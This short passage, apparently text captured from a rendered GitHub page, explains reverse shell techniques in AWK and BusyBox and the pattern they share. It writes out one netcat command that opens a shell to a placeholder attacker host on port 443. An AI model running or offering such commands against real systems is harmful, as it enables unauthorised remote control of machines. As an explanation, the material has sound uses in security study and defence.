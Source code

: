 AWK Reverse Shell
AWK can use its native TCP capabilities to connect to the attacker, read commands, and return output—despite not being a traditional shell scripting language.

BusyBox Reverse Shell
BusyBox combines netcat and shell execution in one line to create a reverse shell connection using: nc ATTACKER_IP 443 -e sh.

Common Pattern
All reverse shells share a core idea: establish a network connection back to the attacker (usually on port 443) and redirect shell I/O through it to allow remote command execution.

